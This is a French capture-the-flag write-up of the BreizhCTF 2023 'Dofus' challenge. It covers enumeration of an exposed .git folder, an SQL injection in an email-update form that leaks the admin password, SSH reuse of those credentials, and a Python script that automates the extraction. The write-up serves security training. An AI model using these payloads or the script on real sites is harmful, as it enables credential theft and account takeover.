






BreizhCTF 2023 - Dofus
==========================

### Challenge details

| Event          | Challenge | Category | Points | Solves |
| -------------- | --------- | -------- | ------ | ------ |
| BreizhCTF 2023 | Dofus     | Pentest  | ???    | ???    |


    
Le monde des 12 a été infecté ! Reprenez le contrôle du serveur pour rétablir de l'ordre.

Auteur: [Zeecka](https://twitter.com/Zeecka_)

### TL;DR

Le challenge proposait un serveur web avec un dossier `/.git/`. L'extraction et l'analyse du code source mène à une injection SQL en "update" permettant d'exfiltrer le mot de passe de l'administrateur. La réutilisation du couple "utilisateur/mot de passe" en SSH nous permet ensuite de récupérer le flag.

### Méthodologie

Un premier scan nmap nous indique la présence de 3 services.

```text
# Nmap 7.80 scan initiated as: nmap -sS -Pn -p- -oA nmap 10.8.0.1
Nmap scan report for 10.8.0.1 (10.8.0.1)
Host is up (0.0000020s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql

# Nmap done -- 1 IP address (1 host up) scanned in 0.35 seconds
```

Nous allons nous concentrer dans un premier temps sur le service HTTP.



Nous sommes en présence d'un CMS "Byxx'CMS v4.0". Des recherches sur internet nous permet de valider le fait qu'il s'agisse d'un vieux CMS dédié aux serveurs privés Dofus 1.29. Ce dernier semble réputé comme vulnérable mais le nombre d'exploit publique. La récupération des sources peut se faire de manière open source.

L'énumération des ressources de l'application nous permet de mettre la main sur un dossier `.git`.

```bash
dirsearch -u http://10.8.0.1/ -x 404,403
```
```text

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11622

Target: http://10.8.0.1/

[21:39:36] Starting: 
[21:39:51] 200 -   92B  - /.git/config
[21:39:51] 200 -   73B  - /.git/description
[21:39:51] 200 -   23B  - /.git/HEAD
[21:39:51] 200 -   22B  - /.git/COMMIT_EDITMSG
[21:39:51] 200 -  240B  - /.git/info/exclude
[21:39:51] 200 -   55KB - /.git/index
[21:39:51] 200 -  165B  - /.git/logs/HEAD
[21:39:51] 200 -   41B  - /.git/refs/heads/master
[21:39:52] 200 -    0B  - /.gitkeep
[21:39:51] 200 -  165B  - /.git/logs/refs/heads/master
[21:39:53] 200 -   29B  - /.htaccess/
[21:39:53] 200 -   29B  - /.htaccess
...

Task Completed
```


* Directory listing sur le dossier `/.git/`.*

Compte tenu du directory listing, nous allons privilégier un téléchargement récursif avec `wget` plustôt qu'un outil comme `git-dumper`.

```bash
wget -r -np -R "index.html*" http://10.8.0.1/.git/
cd 10.8.0.1
git checkout .
ls -la
```
```
drwxr-xr-x 10 zeecka zeecka    300 25 févr. 21:49 .
drwxr-xr-x  3 zeecka zeecka     60 25 févr. 21:49 ..
-rw-r--r--  1 zeecka zeecka    844 25 févr. 21:49 code.php
drwxr-xr-x  2 zeecka zeecka     60 25 févr. 21:49 configuration
-rw-r--r--  1 zeecka zeecka 137750 25 févr. 21:49 favicon.ico
drwxr-xr-x  8 zeecka zeecka    260 25 févr. 21:49 .git
drwxr-xr-x  3 zeecka zeecka    700 25 févr. 21:49 images
drwxr-xr-x  2 zeecka zeecka    200 25 févr. 21:49 include
-rw-r--r--  1 zeecka zeecka   2506 25 févr. 21:49 index.php
drwxr-xr-x  4 zeecka zeecka    180 25 févr. 21:49 mod
drwxr-xr-x  2 zeecka zeecka    740 25 févr. 21:49 page
-rw-r--r--  1 zeecka zeecka     25 25 févr. 21:49 presentation.txt
drwxr-xr-x  2 zeecka zeecka    100 25 févr. 21:49 sql
drwxr-xr-x  4 zeecka zeecka    100 25 févr. 21:49 style
-rw-r--r--  1 zeecka zeecka   3713 25 févr. 21:49 vote.php
```

L'inestiguation du code source nous permet d'identifier une injection sql post authent sur la page de modification d'email (page/changemail.php:66):

```php
	if(isset($_POST['email']) and isset($_POST['email2']) and isset($_POST['reponse']))
	{
		if($_POST['email'] == $_POST['email2'])
		{
			$email = $_POST['email'];
			if($quest2 == $_POST['reponse'])
			{
				$retour = mysql_query("UPDATE accounts SET email = '".$email."' WHERE account='".$_SESSION['login']."'") or die(mysql_error());
?> 	
		<div id="bgContent">
			<div id="textContent">	
				<p>Votre nouvelle email est : <?php echo '<b>'.$email.'<b><br>'; ?>
				</p>
```

Le champ injecté correspond au nouvel email que l'on souhaite accorder à son compte. Cette injection peut par ailleure être identifiée en boite noire en injectant des simples quotes: 



L'injection SQL ayant lieu dans un `UPDATE`, nous devons trouver un moyen d'exfiltrer des données. La manière la plus simple serait de modifier un deuxième attribut de notre compte. La lecture des sources SQL nous permet d'en savoir plus sur l'architecture de la table `accounts`:

```sql
-- ----------------------------
-- Table structure for `accounts`
-- ----------------------------
CREATE TABLE `accounts` (
  `guid` int(11) NOT NULL AUTO_INCREMENT,
  `account` varchar(30) NOT NULL,
  `pass` varchar(50) NOT NULL,
  `level` int(11) NOT NULL DEFAULT '0',
  `vip` int(1) NOT NULL DEFAULT '0',
  `email` varchar(100) DEFAULT '',
  `lastIP` varchar(15) DEFAULT '',
  `lastConnectionDate` varchar(100) NOT NULL,
  `question` varchar(100) NOT NULL DEFAULT 'supprimer ?',
  `reponse` varchar(100) NOT NULL DEFAULT 'oui',
  `pseudo` varchar(30) NOT NULL,
  `banned` tinyint(3) NOT NULL DEFAULT '0',
  `reload_needed` tinyint(1) NOT NULL DEFAULT '1',
  `bankKamas` int(11) NOT NULL DEFAULT '0',
  `bank` text DEFAULT '',
  `friends` text DEFAULT '',
  `enemy` text DEFAULT '',
  `points` int(11) NOT NULL DEFAULT '0',
  `logged` int(1) NOT NULL DEFAULT '0',
  `verif` varchar(50) DEFAULT '',
  `vipdate` varchar(255) NOT NULL DEFAULT '0',
  `vote` int(4) DEFAULT '0',
  `persoprincip` varchar(30) DEFAULT NULL,
  `heurevote` bigint(100) DEFAULT '0',
  `stable` varchar(255) DEFAULT '',
  `pointcadeau` int(11) DEFAULT '300',
  `loterie` bigint(100) DEFAULT '0',
  PRIMARY KEY (`guid`),
  UNIQUE KEY `account` (`account`)
) ENGINE=MyISAM AUTO_INCREMENT=2 DEFAULT CHARSET=utf8;
```

Le champ `question` est réflété sur la page de changement de mot de passe. Sa taille `varchar(100)` en fait un candidat idéal.

Le contrôle de l'email (ici valeure `INJECTION`) a un comportement nominal avec la syntaxe SQL suivante:

```sql
UPDATE accounts SET email = 'INJECTION' WHERE account=45;
```
*Note: l'id 45 est hypothétique et peu important*

En choisissant la valeure `INJECTION', question = 'NOUVEAU` comme email, nous avons une nouvelle requète:

```sql
UPDATE accounts SET email = 'INJECTION', question = 'NOUVEAU' WHERE account=45;
```

Cette requète permet la modification de la question secrète. L'utilisation d'un proxy comme Burp peut être nécessaire afin d'outrepasser la contrainte `type=email` liée à l'inpu HTML.


*Affichage d'une nouvelle question après déconnection/reconnection*

En choisissant la valeure `INJECTION', question = @@version, vipdate='1` comme email, nous avons une nouvelle requète:

```sql
UPDATE accounts SET email = 'INJECTION', question = @@version, vipdate='1' WHERE account=45;
```

Qui nous permet d'extraire des valeures plus avancées avec ici la version MariaDB:



Compte tenu du code source, nous allons essayer d'extraire le nom d'utilisateur et le mot de passe de l'administrateur. Cette requète peut se traduire sous la forme:

```sql
SELECT CONCAT(account, ' : ', pass) FROM accounts WHERE level > 1 LIMIT 1;
```

Nous allons donc placer cette requète comme sous requète de notre injection:

Nous injectons maintenant `INJECTION', question = (SELECT CONCAT(account, ' : ', pass) FROM accounts WHERE level > 1 LIMIT 1), vipdate='1` ce qui donne la requète suivante:

```sql
UPDATE accounts SET email = 'INJECTION', question = (SELECT CONCAT(account, ' : ', pass) FROM accounts WHERE level > 1 LIMIT 1), vipdate='1' WHERE account=45;
```



Nous sommes maintenant en possession du couple d'identifiant `barbok` : `r69*H27anxxc`. Nous pouvons nous connecter au CMS, ou bien essayer ces identifiants sur le service SSH:

```bash
ssh barbok@ctf.bzh -p 31380
cat flag.txt
```
```text
BZHCTF{CodeAudioNoNoob}
```

Voici le script permettant d'automatiser l'exfiltration des identifiants:

```python
import requests
import random
import string

HOST = "http://10.8.0.1/"

def get_random_string(l):
    return ''.join(random.choice(string.ascii_lowercase) for i in range(l))

def create_user(user):
    """ Create an account (user = pass) with given username. """
    s = requests.session()
    page = f"{HOST}index.php?page=register"
    data = {
        "name": user,
        "pass": user,
        "pass2": user,
        "pseudo": user,
        "mail": user,
        "secretquestion" : user,
        "secretanswer" : user,
        "ok": "S'%27i'nscrire+sur+Omega"
    }
    r = s.post(page, data=data)
    if "<b>Bravo</b>" in r.text:
        print(f"[+] Compte \"{user}\" créé.")

def login(user):
    s = requests.session()
    page = f"{HOST}index.php?page=home"
    data = {
        "login": user,
        "passlog": user,
        "hidden": "log",
        "logon": "Connexion+au+site"
    }
    r = s.post(page, data=data)
    return s

def query(user, qry):
    ## Connect with user
    s = login(user)

    ## Changemail SQLi (update), write data into question field
    payload = f"INJECTION', question = ({qry}), vipdate = '"
    page = f"{HOST}index.php?page=changemail"
    data = {
        "email": payload,
        "email2": payload,
        "reponse": user,
        "mdp": "Modifier"
    }
    r = s.post(page, data=data)
    if "Votre nouvelle email" in r.text:
        print("[+] Injection effectuée")
    ## Reconnect user to reload question
    s = login(user)
    page = f"{HOST}index.php?page=changemail"
    r = s.get(page).text
    question =r.split('Question Secrete :')[1].split('<td style="width:150px">')[1].split('</td>')[0]
    return question  # Query result

#
if __name__ == "__main__":
    user = get_random_string(12)
    create_user(user)
    username = query(user, "SELECT account FROM accounts WHERE guid=1")
    print(f"[+] Got username \"{username}\"")
    pwd = query(user, "SELECT pass FROM accounts WHERE guid=1")
    print(f"[+] Got password \"{pwd}\"")
    print(f"\n--- Connect as {username}:{pwd} and get the flag in /home/{username}")
```

#### Flag

`BZHCTF{CodeAudioNoNoob}`

Auteur: [Zeecka](https://twitter.com/zeecka_)